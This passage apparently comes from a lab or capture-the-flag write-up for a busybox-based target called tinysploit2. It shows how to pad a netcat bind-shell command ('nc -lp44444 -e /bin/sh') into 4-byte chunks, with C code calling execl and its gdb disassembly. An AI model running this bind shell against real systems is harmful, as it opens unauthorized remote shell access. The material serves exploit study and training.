 
But, there is an additional restriction:
3) the argument length needs to be a multiple of 4
Because we can only write 4-bytes at a time, and the strings need to be null terminated.
It may be possible to write only 1 or 2 bytes at a time, but this is a bit cumbersome.

So, is it possible to convert this string into arguments which are a multiple of 4 bytes?
```
/bin/nc -l -p 4444 -e /bin/sh
```

After some trying, the answer is yes! Surprisingly:
```
//bin/nc -lp44444 -e////bin/sh
```


Lets first check it how it works in C. Note that tinysploit2 is based on busybox,
therefore the first argument has to be "/bin/busybox", or we have an error like `lp44444: applet not found`.
```
#include <stdio.h>
#include <unistd.h>

void main(void) {
	char *path = "/bin/busybox"; # 12
	char *a1 = "//usr/bin/nc";   # 12
	char *a2 = "-lp44444";       # 8
	char *a3 = "-e////bin/sh";   # 12

	execl(path, a1, a2, a3, NULL);
}

(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	and    esp,0xfffffff0
   0x080483fa <+6>:	sub    esp,0x30
   0x080483fd <+9>:	mov    DWORD PTR [esp+0x2c],0x8048504
   0x08048405 <+17>:	mov    DWORD PTR [esp+0x28],0x8048511
   0x0804840d <+25>:	mov    DWORD PTR [esp+0x24],0x804851e
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x20],0x8048527
   0x0804841d <+41>:	mov    DWORD PTR [esp+0x10],0x0
   0x08048425 <+49>:	mov    eax,DWORD PTR [esp+0x20]
   0x08048429 <+53>:	mov    DWORD PTR [esp+0xc],eax
   0x0804842d <+57>:	mov    eax,DWORD PTR [esp+0x24]
   0x08048431 <+61>:	mov    DWORD PTR [esp+0x8],eax
   0x08048435 <+65>:	mov    eax,DWORD PTR [esp+0x28]
   0x08048439 <+69>:	mov    DWORD PTR [esp+0x4],eax
   0x0804843d <+73>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048441 <+77>:	mov    DWORD PTR [esp],eax
   0x08048444 <+80>:	call   0x80482e0 <execl@plt>
   0x08048449 <+85>:	leave
   0x0804844a <+86>:	ret
End of assembler dump.
```
